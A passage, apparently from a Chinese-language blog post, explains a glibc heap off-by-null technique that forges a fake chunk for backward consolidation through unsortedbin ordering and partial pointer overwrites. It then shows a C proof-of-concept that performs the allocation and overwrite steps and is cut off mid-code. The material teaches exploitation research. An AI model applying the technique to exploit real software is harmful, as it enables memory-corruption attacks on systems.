 ![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/61e9495c4d9e45e995b71b8f9dc08eae.png)
目标是让H1可以合并C0：

- C0满足unlink条件构造。即 D->C0->A 双向链表 （不需要设置 D->bk和A->fd）

- C0. size == H1.prev_size

大概流程
1. 释放A, C0, D。此时unsortedbin: D->C0->A。通过释放B0，让B0和C0合并成BC，从而保存构造好fake chunk指针：C0->fd、C0->bk。（其中C0就是要伪造的chunk p，地址对齐为0x????00. （后两位为0），无需爆破）
2. 申请B1，分割BC。B1.size = B0.size+0x20， 此时可以把C0的size改成0x551。再把剩下的C1、 D、 A申请回来。
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/9a29db5846b24d5abc72ca7ce8137750.png)
3. 设置A->bk=p，释放A 、C1，此时unsortedbin: C1->A。再取出A、C1，就可以部分写A->bk 为 C0
4. 设置B->fd=p，释放C1，D，此时unsortedbin: D->C1。再释放H，让H和D合并成HD，这样就可以保存构造好的D->fd 。通过H1部分写D->fd为C0。这样做的好处在于可以只部分写1个0字节，即解决难点1。
5. 最后通过H1上方的barrier，off by null设置H1.prev_size = 0x550, H1.prev_inuse=0。就完成了最终布局。
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/41ae121a91cd4e1a9140a28be979a7dc.png)
最后合并后与barrier和c1部分和B1的最后0x20字节重叠

#### poc

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    void *a=malloc(0x410);
    malloc(0x540); //padding 
    void *b0 = malloc(0x430);
    void *c0 = malloc(0x430);
    void *padding=malloc(0x100); //padding 
    void *h0 = malloc(0x4f0);
    void *d = malloc(0x420);
    malloc(0x10); // padding 

    free(a);
    free(c0);
    free(d);
    free(b0);  //merge b0 with c0   and save c0->fd  c0->bk 
   
    void *b1 = malloc(0x450); //split  merge b0 with c0
    ((long *)b1)[0x438/8] = 0x551;  // c0->size=0x551
    void *c1 = malloc(0x410);
    a=malloc(0x410);
    d = malloc(0x420);  // get back


    free(a);
    free(c1);  // c1->a
    a=malloc(0x410);
    ((char *)a)[8]='\x00';  // a->bk=c0
    c1 = malloc(0x410);

    free(c1);
    free(d);  // d->c1
    free(h0);  //merge h0 with d     
    void *h1=malloc(0x4f0+0x20);
    ((char *)h1)[0x500]='\x00';
    void *d1=malloc(0x400);
```